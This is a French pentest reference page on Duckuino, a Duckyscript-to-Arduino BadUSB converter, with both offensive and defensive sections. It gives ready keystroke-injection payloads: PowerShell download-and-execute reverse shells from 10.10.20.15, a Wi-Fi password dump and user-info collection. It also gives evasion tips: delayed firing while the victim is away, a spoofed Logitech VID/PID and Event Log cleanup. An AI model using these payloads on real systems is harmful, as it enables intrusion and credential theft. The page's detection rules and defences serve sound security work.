


# Duckuino — Du Duckyscript au microcontrôleur (BadUSB DIY)

> [!info] **En 1 phrase**
> Un convertisseur qui transforme un script **Duckyscript** en **sketch Arduino** (.ino) pour toute carte à microcontrôleur **ATmega32u4** (Leonardo, Micro, Pro Micro, Teensy) — le BadUSB « fait maison » à quelques euros.

---

## Overview

| Champ | Valeur |
|---|---|
| Nom | Duckuino |
| Type | Générateur / compilateur Duckyscript → Arduino |
| Usage | Conversion de payloads BadUSB pour cartes HID à microcontrôleur |
| Cible | Arduino Leonardo, Micro, Pro Micro, Teensy, Digispark (via forks) |
| Microcontrôleur supporté | ATmega32u4 (USB natif), ATTiny85 (Digispark via Dckuino.js) |
| Coût du matériel | Pro Micro ~5 €, Leonardo ~20 €, Digispark ~1 € |
| Langage de sortie | C++ (sketch Arduino, bibliothèque `Keyboard.h`) |
| Dépendance clé | `Keyboard.h` / NicoHood's HID (fork d4n5h) |
| Licence | MIT (Dckuino.js) / variées selon les forks |
| Original | Plazmaz (2014, Hak5 Forums) |
| Référentiels | GitHub Plazmaz/Duckuino, nemus/duckuino.js, Dukweeno/Duckuino |
| Vecteur MITRE principal | T1200 (Hardware Additions) |

Le convertisseur est **indépendant du matériel** : il produit du code, c'est la carte qui exécute. Cela en fait l'outil le plus économique et le plus personnalisable de la famille BadUSB.

---

## Concept

Duckuino est un **générateur** : il prend un payload écrit en Duckyscript (le langage du USB Rubber Ducky) et le convertit en code Arduino utilisant l'API HID native de l'**ATmega32u4**. Contrairement à l'UNO (ATmega328p, sans HID USB natif), les cartes **Leonardo / Micro / Pro Micro / Teensy** embarquent un contrôleur USB capable de s'énumérer en **clavier HID** : une fois le sketch flashé, la carte se présente comme un clavier et frappe le payload. Le principe est identique au Rubber Ducky, mais :

- coût réduit (une Pro Micro ~5 €) ;
- code entièrement contrôlable (timings, conditions, code Arduino personnalisé) ;
- VID/PID **Arduino** (2341:8036 pour la Leonardo, 1b4f:9206 pour la SparkFun Pro Micro) → identifiable en analyse USB.

Le générateur Duckuino (dont la version web `duckuino.js`) produit un sketch contenant les appels `Keyboard.*` équivalents aux commandes Duckyscript (`GUI r` → `Keyboard.press(KEY_LEFT_GUI); Keyboard.press('r')`, etc.). Il se place dans la phase de **pentest physique** d'un engagement : accès au poste d'un utilisateur pour voler des sessions, exfiltrer des données, ou établir un premier accès réseau, avec un coût matériel très faible et un matériel banalisé.

Comparé au Rubber Ducky officiel, le DIY Duckuino offre la **reproductibilité** et la **modification libre** du code : on peut insérer des conditions, des boucles ou des délais calculés, et changer le comportement sans racheter de matériel. Le revers de la médaille : pas de support commercial, un flash plus délicat sur Pro Micro (driver CH340G, reset manuel) et un timing qui varie selon les cartes. Pour des campagnes répétées, garder une bibliothèque de sketches testés par plateforme (Windows 10/11, Linux, macOS) est indispensable.



---

## Concepts fondamentaux

| Notion | Détail |
|---|---|
| ATmega32u4 | MCU AVR avec **contrôleur USB full-speed natif** (12 Mbps) : peut s'énumérer en clavier HID sans composant externe |
| Caractéristiques | 32 Ko flash, 2,5 Ko RAM, 1 Ko EEPROM |
| ATmega328p / UNO | USB géré par un pont (ATmega16U2 ou CH340G) : **pas de HID natif** sans reflash du pont |
| `Keyboard.h` | Bibliothèque Arduino : `Keyboard.begin()`, `press()`, `print()`, `write()`, `releaseAll()`, `end()` |
| Duckyscript | Langage déclaratif (Hak5) : `STRING`, `DELAY`, `GUI`, `CTRL`, `ENTER`… |
| Mapping | Chaque commande Duckyscript → un ou plusieurs appels `Keyboard.*` |
| VID/PID | Signature USB : Leonardo `2341:8036` (bootloader `2341:0036`), SparkFun Pro Micro `1b4f:9206` (boot `1b4f:9205`) |
| Bootloader | Leonardo/Pro Micro utilisent un bootloader CDC (Caterina) ; fuses verrouillables |
| Digispark | ATTiny85 (~1 €), HID logiciel (DigiKeyboard) — supporté par Dckuino.js |
| Layout clavier | Le HID envoie des **scancodes** : la disposition réelle (AZERTY…) est interprétée par l'OS → piège classique des caractères spéciaux |

> [!note] À vérifier
> Les valeurs de VID/PID des clones « Pro Micro » non officiels varient : beaucoup se présentent comme une Leonardo `2341:8036`. Vérifier avec `lsusb` sur la carte réelle.

---

## Installation

Le générateur lui-même ne s'installe pas : il s'utilise en **ligne** (générateur web Duckuino / Dckuino.js) ou en **local** (clone du dépôt). L'installation concerne surtout la chaîne Arduino :

```bash
# 1. Arduino IDE (GUI) ou arduino-cli (terminal)
#    Windows : winget install Arduino.Software.IDE
#    Linux   : télécharger l'archive sur arduino.cc (le paquet apt peut être obsolète)

# 2. Support des cartes ATmega32u4 (Gestionnaire de cartes)
arduino-cli core install arduino:avr          # Leonardo / Micro officielles
arduino-cli core install sparkfun:avr         # SparkFun Pro Micro (ou board manager SparkFun)

# 3. Générateur local Duckuino (fork d4n5h, dépend de la lib NicoHood's HID)
git clone https://github.com/nemus/duckuino.js
#    ou ouvrir le générateur web : https://duckuino.js.org

# 4. Compilation + upload en CLI
arduino-cli compile --fqbn arduino:avr:leonardo payload.ino
arduino-cli upload -p /dev/ttyACM0 --fqbn arduino:avr:leonardo payload.ino
```

> [!note] À vérifier
> Les FQBN exacts diffèrent selon le core installé (SparkFun → `sparkfun:avr:promicro`). Adapter le port (`COMx` sur Windows).

---

## Configuration

### Fichier `boards.txt` — changer l'identité USB

Pour que la carte ne se présente plus comme « Arduino » mais comme un **clavier lambda** (défense = allow-list par VID/PID), on modifie les identifiants USB dans le `boards.txt` du core :

```bash
# Linux : ~/.arduino15/packages/SparkFun/hardware/avr/<version>/boards.txt
# Diff minimal pour se faire passer pour un clavier Logitech (exemple pédagogique) :
#   promicro.build.usb_manufacturer="Logitech, Inc."
#   promicro.build.usb_product="Unifying Receiver"
#   promicro.build.vid=0x046d
#   promicro.menu.cpu.16MHzatmega32U4.build.pid=0xc535
# Après modification : redémarrer l'IDE, re-upload. Vérifier : lsusb
```

> [!warning] **Précision**
> Masquer un périphérique derrière un VID/PID tiers est un artefact de contournement : en test autorisé, documenter cette action. Ne pas imiter une marque réelle sans accord (usurpation).

### Règles udev Linux (ModemManager)

Sur Ubuntu, ModemManager peut interférer avec le port série des Pro Micro/Leonardo :

```bash
# /etc/udev/rules.d/78-arduino.rules
ATTRS{idVendor}=="2341", ATTRS{idProduct}=="8036", ENV{ID_MM_DEVICE_IGNORE}="1", ENV{ID_MM_PORT_IGNORE}="1"
ATTRS{idVendor}=="1b4f", ATTRS{idProduct}=="9206", ENV{ID_MM_DEVICE_IGNORE}="1", ENV{ID_MM_PORT_IGNORE}="1"
sudo udevadm control --reload && sudo udevadm trigger
```

---

## Architecture interne



- **Parser** : transforme chaque mot-clé Duckyscript (`GUI`, `STRING`, `DELAY`, combinaisons `CTRL ALT t`…) en appels `Keyboard.press/write/print/releaseAll`.
- **Sketch généré** : `setup()` initialise le clavier et joue le payload séquentiellement ; `loop()` reste vide (exécution unique au boot).
- **Flash** : via le bootloader Caterina (double reset sur Pro Micro) ou un programmateur ISP pour les fuses.
- **Exécution** : à chaque insertion USB, la carte reboote et rejoue le payload — il n'y a **pas de persistance d'état** entre deux branchements.

---

## Commandes

Le langage de travail est le **Duckyscript** (côté entrée) et la bibliothèque **`Keyboard.h`** (côté sortie générée) :

| Commande Duckyscript | Équivalent Arduino généré | Effet |
|---|---|---|
| `GUI r` | `Keyboard.press(KEY_LEFT_GUI); Keyboard.press('r'); Keyboard.releaseAll()` | Ouvre « Exécuter » |
| `STRING <texte>` | `Keyboard.print("<texte>")` | Frappe un texte |
| `ENTER` | `Keyboard.write(KEY_RETURN)` | Valide |
| `TAB` / `ESC` | `Keyboard.write(KEY_TAB)` / `KEY_ESC` | Navigation |
| `DELAY <ms>` | `delay(<ms>)` | Pause |
| `ALT F4` | `Keyboard.press(KEY_LEFT_ALT); Keyboard.press(KEY_F4)` | Ferme la fenêtre |
| `ARROW_UP` / `ARROW_DOWN` | `Keyboard.press(KEY_UP)` / `KEY_DOWN` | Flèches |
| `WINDOWS l` | `Keyboard.press(KEY_LEFT_GUI); Keyboard.press('l')` | Verrouille la session |
| `CTRL ALT t` | `Keyboard.press(KEY_LEFT_CTRL); Keyboard.press(KEY_LEFT_ALT); Keyboard.press('t')` | Ouvre un terminal Linux |

Exemple de payload à convertir (fictif) :

```bash
# payload ducky typique à convertir
REM Reverse shell Windows (hôtes et IP fictifs)
DELAY 1000
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.20.15/shell.ps1')"
ENTER
```

---

## Options et flags

| Option / paramètre | Description |
|---|---|
| `DELAY <ms>` | Pause avant/entre chaque frappe (crucial pour le boot et les fenêtres) |
| `DEFINE <nom> <valeur>` | Macro de remplacement dans certains forks (non standard) |
| `REM <commentaire>` | Ligne de commentaire Duckyscript, ignorée par le convertisseur |
| `STRING <texte>` | Saisie littérale — attention aux caractères dépendant du layout |
| `STRINGLN <texte>` | Comme `STRING` + `ENTER` |
| `ALT`, `CTRL`, `SHIFT`, `GUI` | Touches modificatrices, combinables (`CTRL ALT t`) |
| `CAPSLOCK`, `NUMLOCK` | Toggles (utiles pour des états persistants) |
| Compilation (IDE) | Choix de la carte (`leonardo`, `promicro`), du port, du core |
| Fork d4n5h | Exige la bibliothèque **NicoHood's HID** (API étendue, support souris) |
| Fork msommacal | Mode redirections (`>`/`|` de Duckyscript) |

> [!note] À vérifier
> La prise en charge des commandes Duckyscript dépend du fork : tester la conversion sur un petit payload avant une campagne.

---

## Exemples pratiques

### Basic — extraction d'informations d'identification (Windows)

```bash
REM payload.txt -> Duckuino -> sketch Leonardo
DELAY 1500
GUI r
DELAY 500
STRING powershell -nop -w hidden -c "$c=@'`n$u=[Environment]::UserDomainName+'/'+$env:USERNAME`n$h=hostname`n$out=$u+'|'+$h`n$out|Out-File -Encoding ascii C:\temp\.pwn.txt`n'@;iex $c"
ENTER
DELAY 800
STRING notepad C:\temp\.pwn.txt
ENTER
DELAY 800
CTRL a
DELAY 100
CTRL c
```

### Intermediate — dump de mots de passe Wi-Fi (Linux)

```cpp
// sketch généré puis édité manuellement
delay(1200);
Keyboard.begin();
Keyboard.press(KEY_LEFT_CTRL); Keyboard.press(KEY_LEFT_ALT); Keyboard.press('t');
Keyboard.releaseAll();
delay(600);
Keyboard.print("grep -h 'ssid\\|psk' /etc/NetworkManager/system-connections/* | tr -d '\\t' > /tmp/wifi.lst");
Keyboard.write(KEY_RETURN);
delay(500);
Keyboard.print("cat /tmp/wifi.lst");
Keyboard.write(KEY_RETURN);
Keyboard.end();
```

### Expert — attaque différée conditionnelle

```cpp
// n'exécuter que si la session est ouverte depuis +30 min (victime absente)
delay(500);
if (millis() > 1800000) {
  Keyboard.press(KEY_LEFT_GUI); Keyboard.press('r'); Keyboard.releaseAll();
  delay(400);
  Keyboard.print("powershell -w hidden -nop -c \"IEX(New-Object Net.WebClient).DownloadString('http://10.10.20.15/p.ps1')\"");
  Keyboard.write(KEY_RETURN);
}
```

---

## Workflow complet (scénario pas à pas)

1. **Écrire le payload** en Duckyscript (ex. reverse shell PowerShell) dans le générateur Duckuino.
2. **Générer le .ino** — Duckuino produit un sketch avec les appels `Keyboard.*` (et éventuellement `delay` avant l'attaque).

```bash
# Vérifier le sketch généré : chaque commande ducky doit avoir son équivalent
grep -n "Keyboard\." payload.ino
```

3. **Flasher la carte** — Arduino IDE → Board = Pro Micro/Leonardo → Upload (bien vérifier le port et le mode 32u4).
4. **Tester sur VM** — brancher la carte sur une machine de test : le payload doit s'exécuter au branchement.
5. **Déploiement** — brancher la carte sur la cible (pensez à un boîtier USB neutre) et valider le résultat.
6. **Nettoyage** — retirer la carte, supprimer les artefacts laissés sur la cible (fichiers temporaires, Event Logs).

---

## Scénarios avancés

### Scénario 1 : Clé BadUSB économique (reverse shell PowerShell)

Une Pro Micro (~5 €) remplace le Rubber Ducky pour le même résultat.

```bash
REM payload.txt -> Duckuino -> sketch (IP fictive)
DELAY 1200
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.20.15/shell.ps1')"
ENTER
```

Compilé avec `delay(1200)` en tête, le payload démarre après le boot Windows, puis ouvre un shell vers le C2 — avec le coût d'un gros stylo USB.

### Scénario 2 : Payload « masqué » avec délai et signature Arduino

Avantage du DIY : on **modifie le sketch** pour différer l'attaque et limiter les soupçons.

```cpp
// extrait du .ino généré, modifié à la main
delay(60000);              // la victime s'éloigne pendant 1 min
Keyboard.print("powershell -w hidden -nop -c \"IEX(New-Object Net.WebClient).DownloadString('http://10.10.20.15/p.ps1')\"");
Keyboard.write(KEY_RETURN);
```

On peut aussi ajouter une **LED clignotante innocente** (blink) pendant l'attente : l'appareil ressemble à une clé USB lambda.

### Scénario 3 : exfiltration sans écrire sur disque (vol de session)

```cpp
// Payload frappé via Duckuino, stocké uniquement en mémoire :
delay(1200);
Keyboard.press(KEY_LEFT_GUI); Keyboard.press('r'); Keyboard.releaseAll();
delay(400);
Keyboard.print("powershell -nop -w hidden -c \"$c=(Invoke-WebRequest http://10.10.20.15/exfil.ps1).Content; iex $c\"");
Keyboard.write(KEY_RETURN);
```

Le script téléchargé est exécuté **en mémoire** : aucune trace sur disque sur la machine de la victime, ce qui retarde la détection forensique.

### Scénario 4 : Double amorce selon l'OS (reconnaissance préalable)

```cpp
// Astuce : frapper une commande de détection, lire le résultat attendu,
// puis brancher selon l'OS (payload Linux vs Windows)
delay(800);
Keyboard.press(KEY_LEFT_CTRL); Keyboard.press(KEY_LEFT_ALT); Keyboard.press('t');
Keyboard.releaseAll();
delay(500);
Keyboard.print("uname -a");       // si rien ne se passe, la cible n'est pas Linux
Keyboard.write(KEY_RETURN);
```

---

## Cybersecurity use cases

| Use case | Description |
|---|---|
| Pentest physique | Accès autorisé à un poste : extraction de sessions, exfil de fichiers, premier accès |
| Red team | Délivrance d'un agent C2 ([[Outil - Metasploit]], [[Outil - PowerShell Empire]]) par HID |
| Phishing USB | Dépôt de clés BadUSB dans un parking (contexte autorisé uniquement) |
| Test de détection | Vérifier les contrôles HID/EDR de l'entreprise (USB allow-list, script block logging) |
| Formation / ateliers | Démontrer le risque des ports USB avec un matériel à ~5 € |
| Défense | Analyse forensique : détection de la frappe automatisée, des VID/PID inconnus |

---

## MITRE ATT&CK

| Technique | ID | Exemple Duckuino |
|---|---|---|
| Hardware Additions | T1200 | Insertion d'une carte ATmega32u4 programmée en clavier HID |
| Command and Scripting Interpreter: PowerShell | T1059.001 | `powershell -w hidden -nop -c "IEX(...)"` frappé au clavier |
| Command and Scripting Interpreter: Windows Command Shell | T1059.003 | Commandes `cmd.exe` / batch frappées |
| User Execution: Malicious File | T1204.002 | Ouverture de fichiers via touches puis exécution |
| Boot or Logon Autostart Execution | T1547.001 | Ajout d'une Run key via `REG ADD` |
| Exfiltration Over Physical Medium | T1052 | Capture visuelle / session volée |
| Application Layer Protocol | T1071 | HTTP(S) pour le téléchargement du payload |

---

## Defensive Security

### Journalisation

| Source | Événement |
|---|---|
| Windows | Event 6416 (nouveau périphérique), SetupAPI logs, DriverFrameworks |
| Windows | Event 4688 (process créé), PowerShell ScriptBlock/Operational logs |
| Windows | Event 4624 (logon) après insertion — corréler avec l'arrivée d'un HID |
| Linux | `udevadm monitor` (nouveau périphérique), audit `keyboard` events |
| Forensique | `lsusb` ne montre qu'un clavier : comparer la **séquence de scancodes** |

### Règle SIGMA (exemple)

```yaml
title: Rapid HID keystroke injection via USB device
id: 6f8a3c2e-aaaa-4b1b-9c5d-2e4f6a8b1c2d
status: experimental
logsource:
    product: windows
    service: powershell
detection:
    selection_script:
        EventID:
            - 4103
            - 4104
        ScriptBlockText|contains:
            - 'New-Object Net.WebClient'
            - 'Invoke-WebRequest'
    condition: selection_script
falsepositives:
    - Scripts d'administration légitimes
level: medium
```

> [!note] À vérifier
> Règle pédagogique : adapter IDs/expressions à l'environnement et au SIEM (Splunk, Wazuh…).

### Contrôles

- **Allow-list USB** par VID/PID + gestion des cartes de développement (Device Guard, Windows Defender Application Control).
- **Device Control** (DCS) sur les postes sensibles : bloquer l'installation de nouveaux HID sans validation.
- **Script block logging + AMSI** : détecter `IEX(Invoke-WebRequest)` et les chaînes suspectes.
- **Supervision vidéo / position des ports** : détecter l'insertion physique.

---

## Automatisation

Générer des payloads paramétrés en boucle (campagnes, variantes par langue) :

```bash
# Bash — génération d'un sketch pour plusieurs hôtes
for ip in 10.10.20.15 10.10.20.16; do
  sed "s/HOST/$ip/" template.txt > "payload_$ip.txt"
  # convertir via duckuino.js puis compiler avec arduino-cli
done
```

```python
# Python — batch de conversion et compilation
import subprocess
payloads = ["revshell", "exfil_wifi", "persist_runkey"]
for p in payloads:
    subprocess.run(["duckuino", f"{p}.txt", "-o", f"{p}.ino"])
    subprocess.run(["arduino-cli", "compile", "--fqbn", "arduino:avr:leonardo", f"{p}.ino"])
```

---

## Output et parsing

Duckuino ne produit pas de sortie « CLI » : sa sortie est le **sketch .ino** (texte), puis éventuellement le **binaire hex** généré par le compilateur. Le retour d'exécution se fait par **port série** (débug) et par l'**analyse USB** côté hôte.

```bash
# Compiler et récupérer le binaire
arduino-cli compile --fqbn arduino:avr:leonardo --output-dir ./build payload.ino
ls -la ./build/*.hex

# Observer l'énumération USB au branchement (Linux)
udevadm monitor --property &
lsusb | grep -i -E "2341|1b4f"
```

---

## Intégrations

- [[Tools| Outils]] global
- [[Outil - USB Rubber Ducky]] — même langage Duckyscript, matériel officiel HID seul
- [[Outil - Bash Bunny]] — Duckyscript + modes réseau/stockage (niveau supérieur)
- [[Outil - Flipper Zero (USB & radio)]] — BadUSB embarqué + RFID/NFC/radio
- [[Outil - P4wnP1 A.L.O.A.]] — Raspberry Pi Zero W en gadget USB programmable
- [[Outil - O.MG Cable]] — injection HID **à distance** (WiFi), complémentaire
- [[Outil - USB Host Shield]] — inverse : lire les frappes d'un vrai clavier branché en hôte
- [[Techniques/Hardware - Arduino]] — fondamentaux de la plateforme
- [[Techniques/Protocole USB]] — descripteurs, classes, VID/PID
- [[Techniques/Reverse Shells]] — payloads HID livrés par PowerShell

---

## Alternatives

| Outil | Matériel | Coût | Points forts | Points faibles |
|---|---|---|---|---|
| **Duckuino (DIY)** | ATmega32u4 | ~5 € | Code libre, entièrement modifiable, reproductible | Flash délicat, timing variable, pas de support |
| Digispark (Dckuino.js) | ATTiny85 | ~1 € | Très bon marché, minuscule | HID logiciel, 6 Ko flash, pas de clavier HID natif |
| [[Outil - USB Rubber Ducky]] | Clé Hak5 | ~50 € | Fiable, outil officiel, communauté | Coût, HID seul (pas de réseau) |
| [[Outil - Bash Bunny]] | Clé Hak5 | ~100 € | HID + STORAGE + NET, double slot | Coût, fermé (sauf payloads) |
| [[Outil - Flipper Zero (USB & radio)]] | Gadget | ~180 € | Multi-vecteurs, BadUSB + RFID + radio | Coût, taille, firmware propriétaire (custom possible) |
| [[Outil - P4wnP1 A.L.O.A.]] | RPi Zero W | ~30 € | Réseau + HID + scripts, très flexible | Boîtier volumineux, énergie |
| [[Outil - O.MG Cable]] | Câble | ~100 €+ | Injection à distance WiFi, discrets | Coût, dépend WiFi |

---

## Performance

- **Latence de déclenchement** : le sketch démarre dès l'alimentation USB (quelques centaines de ms + `delay()` initial) — quasi immédiat après le boot de la cible.
- **Vitesse de frappe** : l'OS peut perdre des scancodes si les frappes sont trop rapides → prévoir des `DELAY` entre les commandes sensibles.
- **Mémoire** : le payload est limité par la **flash** (32 Ko sur ATmega32u4, 6 Ko sur Digispark) — les gros scripts doivent être scindés ou optimisés.
- **Fiabilité** : dépend de la qualité de la carte (cristal, régulateur) et du câble USB ; les clones CH340G peuvent nécessiter un driver.

---

## Troubleshooting

### Problème : la carte n'apparaît pas au branchement

- **Cause** : driver CH340G absent, câble « charge uniquement », port USB défaillant.
- **Solution** : installer le driver CH340G, tester un câble de données, changer de port.
- **Vérification** : `lsusb` / Gestionnaire de périphériques doit montrer un COMx.

### Problème : l'upload échoue sur Pro Micro (port perdu)

- **Cause** : le port série disparaît à l'ouverture de la session de flash.
- **Solution** : utiliser la **broche RST** ou le **double reset** (2 appuis rapides) pour revenir en bootloader (PID 1b4f:9205).
- **Vérification** : `lsusb` doit montrer le PID bootloader pendant 8 secondes.

### Problème : les caractères frappés sont différents (layout)

- **Cause** : le HID envoie des scancodes ; l'OS applique sa disposition clavier.
- **Solution** : adapter le payload au layout cible (AZERTY), utiliser des commandes indépendantes des caractères spéciaux.
- **Vérification** : tester sur une VM avec le layout de la cible.

---

## Sécurité de l'outil

- **Cadre légal** : l'insertion d'une carte programmée sur un poste tiers est une intrusion (test autorisé obligatoire, accord écrit).
- **Contrefaçon** : modifier VID/PID pour imiter une marque est une usurpation — rester dans le cadre documenté du test.
- **Traces** : le sketch flashé est **extractible** (lecture flash via ISP) — une carte perdue révèle le payload et le C2 ; chiffrer/obfusquer les chaînes sensibles.
- **Données** : RGPD — ne collecter que les données du périmètre autorisé.

---

## Limitations

- **Uniquement ATmega32u4 (ou compatibles)** : une UNO (ATmega328p) ne peut PAS émuler de clavier HID natif — sans reflash du pont USB, l'attaque est impossible.
- **HID seul** : pas de réseau, pas de stockage, pas de double slot (contrairement au [[Outil - Bash Bunny]]).
- **Pas de contrôle à distance** : le payload est figé à la compilation (sauf réédition/refash).
- **Caractères spéciaux / dead keys** : non garantis selon le layout — relire le sketch généré.
- **Durabilité** : connecteur micro-USB fragile, flash limité en cycles (EEPROM, fuses).
- **Détection** : VID/PID Arduino connu, frappe rapide anormale, téléchargement en mémoire — faciles à repérer par un SOC averti.

---

## Cheatsheet

| Action | Syntaxe |
|---|---|
| Saisie littérale | `STRING <texte>` |
| Saisie + Entrée | `STRINGLN <texte>` |
| Pause | `DELAY <ms>` |
| Modificateur | `GUI`, `CTRL`, `ALT`, `SHIFT` (combinables) |
| Combinaison | `CTRL ALT t` |
| Touche | `ENTER`, `TAB`, `ESC`, `F1`…`F12`, `ARROW_*` |
| Verrouiller | `WINDOWS l` |
| Commentaire | `REM <note>` |
| Génération web | Duckuino (duckuino.js) / Dckuino.js live |
| Compilation | `arduino-cli compile --fqbn arduino:avr:leonardo payload.ino` |
| Upload | `arduino-cli upload -p <port> --fqbn arduino:avr:leonardo payload.ino` |
| Vérif USB | `lsusb` (Linux), Gestionnaire de périphériques (Windows) |

---

## Quick reference

```cpp
// Minimum viable : clavier HID qui frappe un texte puis valide
#include <Keyboard.h>
void setup() {
  Keyboard.begin();
  delay(1000);
  Keyboard.print("Hello from Duckuino !");
  Keyboard.write(KEY_RETURN);
  Keyboard.end();
}
void loop() {}
```

```bash
# Générer + compiler + uploader en une ligne (payload Duckyscript → carte)
python duckuino.py payload.txt > payload.ino \
  && arduino-cli compile --fqbn arduino:avr:leonardo payload.ino \
  && arduino-cli upload -p /dev/ttyACM0 --fqbn arduino:avr:leonardo payload.ino
```

---

## Détection & Défense

| Signe | Défense |
|---|---|
| VID/PID Arduino (2341:8036 Leonardo, 1b4f:9206 Pro Micro, 2341:0036 bootloader) | Allow-list USB par VID/PID, blocage des cartes de développement |
| Périphérique HID inconnu qui apparaît au branchement | Control Device Guard / blocage des drivers, audit SetupAPI (Event ID 6416) |
| Frappe clavier à vitesse anormale | EDR comportemental HID, détection de la frappe automatisée |
| Sketch reflashé / carte avec firmware non standard | Contrôle matériel : cartes verrouillées (fuses), inventaire des périphériques |
| Téléchargement puis exécution en mémoire d'un script | Détection de PowerShell `Invoke-WebRequest` + `iex` (script block logging) |

---

## Tips & Pièges

> [!tip] **Tips**
> - Tester sur **Linux ET Windows** : l'énumération et les timings diffèrent (boot, drivers).
> - Sur la Pro Micro, utiliser la **broche 2 (auto-reset)** pour fiabiliser le flash avant le premier upload.
> - Garder le `delay()` initial ≥ 1 s : le clavier doit être prêt avant la première frappe, sinon le payload démarre dans le vide.
> - Vérifier les VID/PID réels avec `lsusb` avant une campagne pour calibrer la défense.

> [!warning] **Pièges**
> - **Uniquement ATmega32u4** : une UNO (ATmega328p) ne peut PAS émuler de clavier HID natif — sans shield supplémentaire, l'attaque est impossible.
> - Le VID/PID Arduino est une signature : en test autorisé avec analyse USB, la carte est identifiée en quelques secondes.
> - Le générateur ne gère pas toutes les combinaisons de touches exotiques (maj, dead keys) : relire le sketch généré avant flash.
> - Un câble « charge uniquement » ne transmet pas les données : le payload ne se déclenche jamais.

---

## References

> [!info] **Sources**
> - [GitHub — Plazmaz/Duckuino (original)](https://github.com/Plazmaz/Duckuino)
> - [GitHub — nemus/duckuino.js](https://github.com/nemus/duckuino.js)
> - [GitHub — Dukweeno/Duckuino](https://github.com/Dukweeno/Duckuino)
> - [GitHub — d4n5h/Duckuino (souris, NicoHood's HID)](https://github.com/d4n5h/Duckuino)
> - [GitHub — nixu-corp/Dckuino.js (Digispark)](https://github.com/nixu-corp/Dckuino.js)
> - [Hak5 — Duckyscript (docs)](https://docs.hak5.org/usb-rubber-ducky-1/duckyscript)
> - [DeviceHunt — Arduino Leonardo 2341:8036](https://devicehunt.com/view/type/usb/vendor/2341/device/8036)
> - [SparkFun — Pro Micro Hookup Guide](https://learn.sparkfun.com/tutorials/pro-micro--fio-v3-hookup-guide/all)
> - [HackTricks — Physical access / BadUSB](https://book.hacktricks.xyz/physical-attacks)

---

**Liens :** [[Tools| Outils]] · [[Techniques/Hardware - Arduino| Arduino]] · [[Outil - USB Rubber Ducky| USB Rubber Ducky]] · [[Techniques/Protocole USB| Protocole USB]]
